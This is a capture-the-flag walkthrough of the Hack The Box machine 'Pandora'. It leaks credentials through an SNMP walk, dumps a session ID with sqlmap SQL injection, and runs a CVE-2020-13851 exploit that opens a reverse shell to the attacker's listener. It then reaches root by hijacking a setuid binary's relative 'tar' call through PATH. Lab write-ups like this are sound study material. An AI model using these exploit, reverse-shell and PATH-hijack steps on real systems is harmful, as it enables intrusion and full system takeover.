





---
tags:
  - linux
---
# HTB: [Pandora](https://app.hackthebox.com/machines/Pandora)

> [!tip]- Spoiler Summary
> This Linux-based challenge leaks login info via SNMP. An exploit in Pandora FMS allows code execution as the intended target admin user. For PE, a setuid binary calls `tar` with a relative path, which can be abused to run arbitrary code as `root`.

## Services

### TCP

```text
# Nmap 7.94SVN scan initiated Fri Jun  7 11:33:32 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp -sCV t
Warning: 10.10.11.136 giving up on port because retransmission cap hit (6).
Nmap scan report for t (10.10.11.136)
Host is up (0.10s latency).
Not shown: 65101 closed tcp ports (reset), 432 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 115E49F9A03BB97DEB840A3FE185434C
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
$ whatweb http://t/
http://t/ [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[contact@panda.htb,example@yourmail.com,support@panda.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.136], Open-Graph-Protocol[website], Script, Title[Play | Landing], probably WordPress, X-UA-Compatible[IE=edge]
```



### SNMP

```console
$ time snmpbulkwalk -c public -v2c t .
SNMPv2-MIB::sysDescr.0 = STRING: Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64
SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (1412195) 3:55:21.95
SNMPv2-MIB::sysContact.0 = STRING: Daniel
SNMPv2-MIB::sysName.0 = STRING: pandora
SNMPv2-MIB::sysLocation.0 = STRING: Mississippi
...
HOST-RESOURCES-MIB::hrSWRunParameters.785 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.815 = STRING: "-f"
HOST-RESOURCES-MIB::hrSWRunParameters.817 = STRING: "-f"
HOST-RESOURCES-MIB::hrSWRunParameters.829 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
HOST-RESOURCES-MIB::hrSWRunParameters.839 = STRING: "-f"
HOST-RESOURCES-MIB::hrSWRunParameters.843 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
HOST-RESOURCES-MIB::hrSWRunParameters.844 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.858 = STRING: "-k start"
HOST-RESOURCES-MIB::hrSWRunParameters.870 = STRING: "-o -p -- \\u --noclear tty1 linux"
HOST-RESOURCES-MIB::hrSWRunParameters.938 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.955 = STRING: "--no-debug"
HOST-RESOURCES-MIB::hrSWRunParameters.1118 = STRING: "-u daniel -p HotelBabylon23"
...
```

## RCE

The credentials `daniel:HotelBabylon23` that I discovered via SNMP work for SSH access.

However, the user flag exists in another user's directory that I can't access.

```console
daniel@pandora:~$ id
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel)
daniel@pandora:~$ ls -la
total 28
drwxr-xr-x 4 daniel daniel 4096 Jun  7 17:48 .
drwxr-xr-x 4 root   root   4096 Dec  7  2021 ..
lrwxrwxrwx 1 daniel daniel    9 Jun 11  2021 .bash_history -> /dev/null
-rw-r--r-- 1 daniel daniel  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 daniel daniel 3771 Feb 25  2020 .bashrc
drwx------ 2 daniel daniel 4096 Jun  7 17:48 .cache
-rw-r--r-- 1 daniel daniel  807 Feb 25  2020 .profile
drwx------ 2 daniel daniel 4096 Dec  7  2021 .ssh
daniel@pandora:~$ find / -name 'user.txt' 2>/dev/null
/home/matt/user.txt
daniel@pandora:~$ cat /home/matt/user.txt
cat: /home/matt/user.txt: Permission denied
```

There's also a potential future PE target belonging to that user:

```console
daniel@pandora:/$ ls -l /usr/bin/pandora_backup
-rwsr-x--- 1 root matt 16816 Dec  3  2021 /usr/bin/pandora_backup
```

  User `matt` owns everything under `/var/www/pandora`, and I can read many or all of the files there, with the exception of `./include/config.php` which has the DB password I want.

There's a `pandoradb_data.sql` file that has a password hash for an admin user, although I think it's just the default. It's unsalted MD5 and trivially crackable.



What's this?

```console
root         817  0.0  0.0   8352  3416 ?        S    17:32   0:00  _ /usr/sbin/CRON -f
root         829  0.0  0.0   2608   544 ?        Ss   17:32   0:00      _ /bin/sh -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -
p HotelBabylon23'
root        1118  0.0  0.0   2488  1368 ?        S    17:32   0:00          _ /usr/bin/host_check -u daniel -p HotelBabylon23
```

```console
daniel@pandora:/dev/shm$ file /usr/bin/host_check
/usr/bin/host_check: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c1405fc37fbf335b24d79d20f99671c9b2395cac, for GNU/Linux 3.2.0, not stripped
```

`strings` isn't installed on the target so I downloaded it to my machine and looked it over:

```console
$ strings host_check
/lib64/ld-linux-x86-64.so.2
...
PandoraFMS host check utility
Now attempting to check PandoraFMS registered hosts.
Files will be saved to ~/.host_check
/usr/bin/curl 'http://127.0.0.1/pandora_console/include/api.php?op=get&op2=all_agents&return_type=csv&other_mode=url_encode_separator_%7C&user=daniel&pass=HotelBabylon23' > ~/.host_check 2>/dev/null
Host check unsuccessful!
Please check your credentials.
Terminating program!
Host check successful!
Terminating program!
Ussage: ./host_check -u username -p password.
...
```

I'll test that `curl` command.

```console
daniel@pandora:/dev/shm$ curl 'http://127.0.0.1/pandora_console/include/api.php?op=get&op2=all_agents&return_type=csv&other_mode=url_encode_separator_%7C&user=daniel&pass=HotelBabylon23'
1;localhost.localdomain;192.168.1.42;Created by localhost.localdomain;Linux;;09fbaa6fdf35afd44f8266676e4872f299c1d3cbb9846fbe944772d913fcfc69;3
2;localhost.localdomain;;Pandora FMS Server version 7.0NG.742_FIX_PERL2020;Linux;;localhost.localdomain;3
```

I'll try this exploit first:

```console
$ searchsploit pandora |grep 'v7.0NG.742'
Pandora FMS v7.0NG.742 - Remote Code Execution (RCE) (Authenticated) | php/webapps/50961.py
```

> Description: `index.php?sec=godmode/extensions&sec2=extensions/files_repo` in Pandora FMS v7.0 NG allows authenticated administrators to upload malicious PHP scripts, and execute them via base64 decoding of the file location. This affects v7.0NG.742_FIX_PERL2020.

Looks like the `pandora_console` app only responds to requests via `localhost`, so I'll use SSH to forward a port.

I have credentials for `daniel` but the site is only available via API:



I tried running the exploit several ways with no luck. At this point I'm out of ideas for getting this exploit vector to work. I searched for some walkthroughs and saw that [0xdf](https://0xdf.gitlab.io/2022/05/21/htb-pandora.html) took a completely different vector using a SQLi.

I'm able to get the PHP session ID using the SQLi:

```console
$ sqlmap -u 'localhost:8888/pandora_console/include/chart_generator.php?session_id=1' --batch -D pandora -D pandora -T tsessions_php --dump --where "data like '%matt%'"
...
```

```sql
...
Database: pandora
Table: tsessions_php
[1 entry]
+----------------------------+-----------------------------------------------------+-------------+
| id_session                 | data                                                | last_active |
+----------------------------+-----------------------------------------------------+-------------+
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | 1638796349  |
+----------------------------+-----------------------------------------------------+-------------+
```

I visit `http://127.0.0.1:8888/pandora_console/` and modify the cookie to match the session for `matt`:



And that allows me to use the session:



But more simply, I can use CVE-2020-13851 with the session cookie to get a reverse shell:

```console
kali@kali:~/htb-pandora/pandorafms_7.44 (master)
$ python3 ./pandorafms_7.44.py -t http://127.0.0.1:8888/ -c g4e01qdgk36mfdh90hvcc54umq -lhost 10.10.14.4 -lport 443
Pandora FMS 7.44 CVE-2020-13851
No credentials provided. Using PHP Session cookie.
Sending payload:
```

```console
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.136] 44630
bash: cannot set terminal process group (23892): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console$ id
id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
matt@pandora:/var/www/pandora/pandora_console$ cat ~/user.txt
cat ~/user.txt
05369a...
```

## PE

Using `strings` on the previously discovered setuid binary `/usr/bin/pandora_backup` reveals this:

```console
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
...
```

Since the binary calls `tar` with a relative path, I can hijack it.

```console
matt@pandora:~$ cat tar
cp /bin/bash /bin/bashx && chmod u+s /bin/bashx
matt@pandora:~$ chmod +x tar
matt@pandora:~$ export PATH=.:$PATH
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup successful!
Terminating program!
matt@pandora:~$ bashx -p
bashx-5.0# id
uid=1000(matt) gid=1000(matt) euid=0(root) groups=1000(matt)
bashx-5.0#
```

## Open Questions

- How would I have done this without `sqlmap`?

## Credits

- [0xdf](https://0xdf.gitlab.io/2022/05/21/htb-pandora.html)
